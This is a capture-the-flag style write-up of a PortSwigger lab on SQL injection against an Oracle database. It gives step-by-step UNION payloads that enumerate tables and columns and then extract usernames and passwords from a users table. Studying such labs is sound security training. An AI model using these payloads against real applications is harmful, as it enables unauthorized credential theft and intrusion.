





# [Lab 6: SQL Injection Attack, Listing the Database Contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)


### Overview
This lab demonstrates a SQL injection attack that allows an attacker to list the contents of an Oracle database. The vulnerability exists in the product category filter, and a UNION attack is used to retrieve data from other tables, including usernames and passwords.

### Steps to Exploit

1. **Identify the Number of Columns:**
   - Use the following payload to determine the number of columns (using `dual` since it is Oracle):
     ```plaintext
     category=Gifts' UNION SELECT NULL,NULL FROM dual -- -
     ```
   - This confirms that the query returns two columns.
   

2. **List Tables:**
   - Retrieve the list of tables using:
     ```plaintext
     category=Gifts' UNION SELECT table_name,NULL FROM all_tables -- -
     ```
   - The response shows the available tables.
   

3. **List Columns in 'USERS_XZCXJV' Table:**
   - Retrieve the list of columns in the 'USERS_XZCXJV' table using:
     ```plaintext
     category=Gifts' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_XZCXJV' -- -
     ```
   - The response shows the columns in the 'USERS_XZCXJV' table.
   

4. **Retrieve Usernames and Passwords:**
   - Retrieve the usernames and passwords from the 'USERS_XZCXJV' table using:
     ```plaintext
     category=Gifts' UNION SELECT USERNAME_ZNUEXN,PASSWORD_QCIJDG FROM USERS_XZCXJV -- -
     ```
   - The response shows the usernames and passwords.
   

5. **Login with Retrieved Credentials:**
   - Log in with the credentials for the 'administrator' user to solve the lab.
   

### Conclusion
This lab provides a practical example of how SQL injection vulnerabilities can be exploited to list the contents of an Oracle database. It emphasizes the importance of implementing secure coding practices and using parameterized queries to prevent such attacks.
